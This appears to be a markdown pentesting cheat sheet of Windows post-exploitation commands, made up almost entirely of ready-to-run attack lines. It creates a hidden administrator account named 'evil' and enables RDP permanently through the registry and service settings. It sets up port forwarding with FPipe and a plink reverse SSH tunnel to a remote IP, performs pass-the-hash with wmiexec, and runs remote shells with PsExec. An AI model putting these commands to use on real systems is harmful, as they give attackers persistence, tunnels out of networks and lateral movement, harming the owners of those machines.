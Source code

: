 # Basic commands
- Setup evil user
  - cmd
    ~~~sh
    set USER=evil
    set PASS=p@ssw0rd
    # add user
    net user /add %USER% %PASS%
    net localgroup administrators /add %USER%
    # Add and start rdp
    ## check
    tasklist /svc | findstr /C:TermService
    net localgroup "Remote Desktop users" %USER% /add
    net start TermService
    ## Permanently enable Terminal Services
    sc config TermService start=auto
    ## Enable Terminal services through registry // reboot after
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    ~~~
  - powershell
  - vbs

- Port forwarding
  - fpipe
    ~~~
    FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
    FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
    ~~~
  - plink
    ~~~sh
    # on windows for kali
    plink.exe -l root -pw Parolaroot -R 445:127.0.0.1:445
    plink -P 22 -l root -pw Parolaroot -C -R 445:127.0.0.1:445 192.168.12.185
    ~~~

- Pass the hash
  ~~~sh
  wmiexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@localhost
  ~~~

- Exec command on remote windows machine
  ~~~sh
  PsExec.exe \\${HOST} -u alice -p somepasswd cmd
  ~~~
